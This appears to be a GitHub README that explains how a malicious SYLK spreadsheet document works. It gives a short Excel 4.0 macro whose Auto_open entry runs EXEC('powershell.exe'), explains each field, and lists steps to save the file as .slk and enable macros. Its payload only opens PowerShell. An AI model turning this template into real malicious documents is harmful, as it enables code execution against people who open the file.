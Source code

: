 ## Maldoc Documentation

This repo will explain on how malware document using SYLK works.

Below is the SYLK code:
```
ID;P
O;E
NN;NAuto_open;ER1C1;KOut Flank;F
C;X1;Y1;K0;EEXEC("powershell.exe") cell , row one column 1 to open the powershell
C;X1;Y2;K0;EHALT() cell, row 2 column 1 to halt the process
E
```

Code explanation:
```
ID: A header to identify spreadsheet type and creator
O: Options 
E: Macro Sheet
NN: Define names
F: Usable as  function
C: Cell content
X: Column
Y: Row 
K: Value of the cell

```

Steps:
```
1. Copy the code into your text editor
2. Save the file as .slk
3. Then open the .slk file and enable macro
4. Powershell will automatically open
```

Example:
![image](https://user-images.githubusercontent.com/44106858/114968685-71276180-9ea9-11eb-8c47-35d507a65837.png)

After we enable macro, windows powershell will automatically open
![image](https://user-images.githubusercontent.com/44106858/114968993-09bde180-9eaa-11eb-9082-9533954200ab.png)
